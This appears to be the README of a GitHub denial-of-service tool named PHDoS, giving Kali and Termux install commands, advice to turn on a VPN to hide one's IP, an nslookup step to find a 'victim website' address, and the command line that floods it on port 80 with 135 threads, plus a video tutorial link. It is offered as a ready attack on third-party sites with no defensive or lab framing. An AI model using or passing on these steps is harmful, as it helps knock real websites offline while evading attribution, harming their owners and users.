 <b>Kali & Termux Compatible</b><br>
<b>Requirements:</b><br>
$ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install python2<br>
$ apt install python3<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/5inco/PHDoS

First you need to activate a vpn to change your ip

You need the <b>IP Address</b> of a website which you want to attack...<br>
New Terminal just type:<br>
$ <b>nslookup victimwebsite.com<b><br>
Get the IP Address of a victim website<br>

<b>Installation & Usage:</b><br>
$ cd PHDoS/<br>
$ ls<br>
$ python3 phdos.py -s [Victim ip Address] -p 80 -t 135<br>
<br><b>Example:</b></br>
$ python3 phdos.py -s xx.xxx.xxx.xxx -p 80 -t 135<br>
<br>Video Tutorial Link: https://youtu.be/jA4Ecnm6WEk</br>

